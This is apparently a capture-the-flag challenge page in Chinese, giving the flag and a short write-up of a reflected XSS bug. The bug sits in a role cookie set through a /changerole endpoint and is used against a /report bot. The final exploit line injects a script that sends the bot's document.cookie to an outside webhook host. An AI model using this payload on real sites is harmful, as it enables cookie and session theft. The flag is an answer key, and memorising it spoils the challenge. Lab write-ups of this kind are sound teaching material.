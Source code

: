 # Description
有小黑子???速速请求律师发送律师函

# Difficulty
⭐⭐⭐⭐⭐

# Flag
`mayctf{St4rt_Y0ur_XSS_j0urn3y}`

# Platform (Optional)
ARCH

# Hint (Optional)
XSS

# WriteUp
## 后端api
 - `/`
 - `/changerole` 
 - `/report`

## 前端xss
访问 `/` 时会设置`cookie: role=ikun`，role的值会原样显示在前端，因此可以通过设置`role`的值来触发反射型xss

但是，要注意这里的xss受害只是你当前的浏览器，即你所发送的恶意js脚本是由你的浏览器执行，此时只能达到我打我自己的效果

## 攻击xssbot
本题的xssbot为`/report`接口，它相当于受你控制的一个浏览器，会访问你给出的链接，那这应该怎么利用？

这时我们就需要用到另一个接口`/changerole`，这个接口可以通过`GET`型参数来设置cookie。这时我们就可以通过设置带有xsspayload的`newrole`参数来攻击`/report`这个浏览器，通过xsspayload将`/report`浏览器的cookie作为参数值发送到你的服务器，或者一些可以用来接受外带信息的公用服务器，这里使用`https://webhook`

## exp
```js
url=http://127.0.0.1:9988/changerole?newrole=<script>location=`https://webhook/?f=`+encodeURIComponent(document.cookie)</script>
```
